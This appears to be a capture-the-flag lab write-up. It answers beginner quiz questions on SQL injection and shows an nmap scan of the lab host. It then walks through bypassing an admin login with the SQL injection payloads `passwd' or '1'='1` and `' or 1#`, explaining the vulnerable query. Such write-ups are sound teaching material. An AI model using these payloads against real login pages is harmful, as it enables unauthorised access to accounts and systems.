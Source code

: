 What does the acronym SQL stand for? Structured Query Language.

What is one of the most common type of SQL vulnerabilities? SQL Injection.

What is the 2021 OWASP Top 10 classification for this vulnerability? A03:2021-Injection.

What does Nmap report as the service and version that are running on port 80 of the target?

`Apache httpd 2.4.38 ((Debian))`.
```bash
sudo nmap -sV -O -Pn -T4 -p 80 10.129.193.161
```

What is the standard port used for the HTTPS protocol? 443.

What is a folder called in web-application terminology? directory.

What is the HTTP response code is given for `Not Found' errors? 404.

Gobuster is one tool used to brute force directories on a webserver. What switch do we use with Gobuster to specify we're looking to discover directories, and not subdomains? `dir`.

What single character can be used to comment out the rest of a line in MySQL? `#`.

If user input is not handled carefully, it could be interpreted as a comment. Use a comment to login as admin without knowing the password. What is the first word on the webpage returned? Congratulations.



Go to `http://10.129.193.161` and we see a login screen. Googling "login as admin sql injection", we [come up with](https://sechow.com/bricks/docs/login-1.html) the idea of putting some arbitrary entry in the user field, and `passwd' or '1'='1` in the password field.

The idea is that, when `user="user"` and `password="passwd"`, the server is executing a SQL query like:
```sql
SELECT * FROM users WHERE user='user' and password='passwd'
```
If we put `user="user"` and `password="passwd' or '1'='1"`, the query becomes
```sql
SELECT * FROM users WHERE user='user' and password='passwd' or '1'='1'
```
The `password='passwd' or '1'='1'` condition is always true, so the password verification never happens.


Another way to do it is putting `user="' or 1#"` and `password="asd"`. The `#` character will comment out the rest of the line, and the constant `1` is always true.
